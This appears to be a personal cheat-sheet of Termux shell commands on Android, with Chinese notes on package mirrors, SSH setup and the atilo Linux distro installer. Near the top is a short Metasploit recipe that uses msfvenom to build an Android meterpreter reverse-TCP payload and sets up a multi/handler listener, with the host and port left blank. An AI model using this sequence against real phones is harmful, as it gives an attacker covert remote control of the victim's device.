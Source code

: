 termux

---

# termux
---

apt update && apt upgrade

pkg install unstable-repo

pkg install metasploit

msfvenom -p android/meterpreter/reverse_tcp LHOST=

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST 

set LPORT

expolit

pkg install vim

passwd

pgk upgrade

pkg install openssh 8022

sshd

pkill ssh

apt install tsu

tsu

echo "sshd" >> ~/.bashrc auto-ssh

termux-change-repo 

手动修改

编辑 $PREFIX/etc/apt/sources.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/termux-packages-24 stable main

编辑 $PREFIX/etc/apt/sources.list.d/science.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/science-packages-24 science stable

编辑 $PREFIX/etc/apt/sources.list.d/game.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/game-packages-24 games stable

---

Termux 会自动将环境变量 $PREFIX 设定为 /data/data/com.termux/files/usr

export EDITOR=vi

vi  $PREFIX/etc/apt/sources.list

apt edit-sources

pkg install apt-tools

proot

---

atilo

echo "deb [trusted=yes arch=all] https://yadominjinta.github.io/files/ termux extras" >> $PREFIX/etc/apt/sources.list.d/atilo.list

apt update && apt install atilo-cn

Atilo           2.0

Usage: atilo [命令] [参数]

Atilo 是一个用来帮助你在termux上安装不同的GNU/Linux发行版的程序

命令:

images           列出可用镜像

remove           移除本地的镜像

pull             拉取远的镜像

run              运行镜像

clean            清除缓存

help             帮助

---

/data/data/com.termux/files/usr/etc/apt/sources.list 为如下内容

源 deb https://mirrors.ustc.edu.cn/termux stable main

apachectl -k start /stop

termux-setup-storage
